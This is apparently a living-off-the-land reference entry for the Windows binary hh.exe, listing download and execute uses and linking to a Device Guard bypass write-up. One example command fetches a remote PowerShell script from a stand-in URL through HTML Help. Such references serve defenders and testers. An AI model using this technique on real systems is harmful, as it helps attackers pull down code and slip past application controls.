 ## hh.exe
* Functions: Download, Execute
```

HH.exe http://www.google.com
Opens google's web page with HTML Help.

HH.exe C:\
Opens c:\\ with HTML Help.

HH.exe c:\windows\system32\calc.exe
Opens calc.exe with HTML Help.

HH.exe http://some.url/script.ps1
Open the target PowerShell script with HTML Help.
```
   
* Resources:   
  * https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/
   
* Full path:   
  * c:\windows\system32\hh.exe
  * c:\windows\sysWOW64\hh.exe
   
* Notes: Thanks to Oddvar Moe - @oddvarmoe  
   
